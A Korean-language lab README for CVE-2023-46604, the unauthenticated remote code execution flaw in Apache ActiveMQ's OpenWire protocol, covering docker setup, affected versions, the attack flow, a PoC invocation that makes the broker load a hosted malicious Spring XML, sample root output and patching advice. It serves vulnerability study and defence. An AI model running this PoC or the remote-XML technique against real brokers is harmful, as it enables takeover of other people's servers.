




# Apache ActiveMQ 원격 코드 실행 취약점 (CVE-2023-46604)

**Contributors**
-   [한동훈(@c0c0ball)](https://github.com/c0c0ball)
## 환경 구성
1. Apache ActiveMQ 5.18.2 환경과 XML 서버 실행
'''bash
docker compose up --build -d
'''

## 취약점 개요

Apache ActiveMQ는 OpenWire 프로토콜을 이용하여 클라이언트와 메시지를 주고받는 오픈소스 메시지 브로커이다.

CVE-2023-46604는 OpenWire 프로토콜에서 객체를 생성하는 과정의 검증이 충분하지 않아 발생하는 원격 코드 실행(Remote Code Execution, RCE) 취약점이다.

공격자는 조작된 OpenWire 패킷을 전송하여 ActiveMQ가 임의의 Java 클래스를 생성하도록 만들 수 있으며, Spring Framework의 `ClassPathXmlApplicationContext` 객체를 이용해 외부 XML을 로드하고 시스템 명령을 실행할 수 있다.

이 취약점은 인증이 필요하지 않으며 네트워크를 통해 원격에서 공격이 가능하다.

| 항목 | 내용 |
|------|------|
| CVE | CVE-2023-46604 |
| CVSS v3.1 | 10.0 (Critical) |
| Attack Vector | Network |
| Privileges Required | None |
| User Interaction | None |

---

## 영향받는 버전

- Apache ActiveMQ 5.18.0 ~ 5.18.2
- Apache ActiveMQ 5.17.0 ~ 5.17.5
- Apache ActiveMQ 5.16.0 ~ 5.16.6
- Apache ActiveMQ 5.15.15 이하

패치 버전

- 5.15.16 이상
- 5.16.7 이상
- 5.17.6 이상
- 5.18.3 이상

---

# 환경 실행

프로젝트를 실행한다.

```bash
docker compose up --build -d
```

실행 상태를 확인한다.

```bash
docker ps
```



---

# 취약점 분석

취약한 ActiveMQ는 OpenWire 프로토콜을 처리하는 과정에서 생성 가능한 클래스에 대한 검증을 수행하지 않는다.

공격자는 OpenWire 패킷 내부에 `ClassPathXmlApplicationContext` 클래스를 지정하여 ActiveMQ가 해당 객체를 생성하도록 만든다.

생성된 객체는 공격자가 제공하는 XML(Spring Bean 설정)을 다운로드하고 Bean을 생성한다.

Bean 생성 과정에서 `ProcessBuilder`가 실행되면서 시스템 명령이 실행된다.

공격 흐름은 다음과 같다.

```
Attacker
      │
      ▼
OpenWire Packet
      │
      ▼
Apache ActiveMQ
      │
      ▼
ClassPathXmlApplicationContext
      │
      ▼
http://host.docker.internal:8000/poc.xml
      │
      ▼
Spring Bean 생성
      │
      ▼
ProcessBuilder 실행
      │
      ▼
Remote Code Execution
```

---

# PoC 실행

PoC를 실행한다.

```bash
python3 poc.py 127.0.0.1 61616 http://host.docker.internal:8000/poc.xml
```



PoC는 OpenWire 패킷을 전송하여 ActiveMQ가 `ClassPathXmlApplicationContext` 객체를 생성하도록 요청한다.

---

# XML 서버

PoC에서 사용하는 XML은 다음 주소에서 제공된다.

```
http://localhost:8000/poc.xml
```



---

# 실행 결과

PoC 실행 후 다음 명령으로 실행 결과를 확인한다.

```bash
docker exec cve-2023-46604-activemq cat /tmp/result.txt
```

출력 예시

```text
===== CVE-2023-46604 RCE SUCCESS =====

[whoami]
root

[id]
uid=0(root) gid=0(root) groups=0(root)

[hostname]
1d565546fdc6
```



위 결과를 통해 공격자가 전달한 OpenWire 패킷이 정상적으로 처리되었으며,
`ProcessBuilder`를 이용한 시스템 명령이 실제로 실행되었음을 확인할 수 있다.

---

# 대응 방안

다음과 같은 방법으로 취약점을 방지할 수 있다.

- Apache ActiveMQ를 패치 버전(5.15.16 이상, 5.16.7 이상, 5.17.6 이상, 5.18.3 이상)으로 업데이트한다.
- OpenWire 포트(61616)를 외부에서 접근하지 못하도록 제한한다.
- 방화벽을 이용하여 신뢰된 호스트만 접근하도록 설정한다.
- ActiveMQ를 최신 보안 패치 상태로 유지한다.

---

# 참고 자료

- Apache ActiveMQ Security Advisory
- Apache ActiveMQ Release Notes
- NVD (National Vulnerability Database)
- Vulhub